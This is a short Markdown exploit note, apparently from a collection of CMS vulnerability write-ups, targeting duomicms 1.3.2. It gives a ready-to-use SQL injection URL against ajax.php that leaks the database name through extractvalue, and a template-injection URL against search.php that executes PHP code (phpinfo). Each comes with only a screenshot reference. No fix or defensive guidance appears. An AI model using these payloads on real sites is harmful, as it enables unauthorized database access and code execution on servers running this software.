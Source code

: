 ### duomicms（多米）

```
版本信息：1.3.2
```

#### 前台sql注入

```
/duomiphp/ajax.php?action=addfav&id=1&uid=1 and extractvalue(1,concat_ws(0x3A,0x3A,database()))
```

![image-20221205155614944](images/image-20221205155614944.png)

#### 前台代码执行

```
/search.php?searchword={if:phpinfo()}phpinfo(){end
```

![image-20221205155728383](images/image-20221205155728383.png)

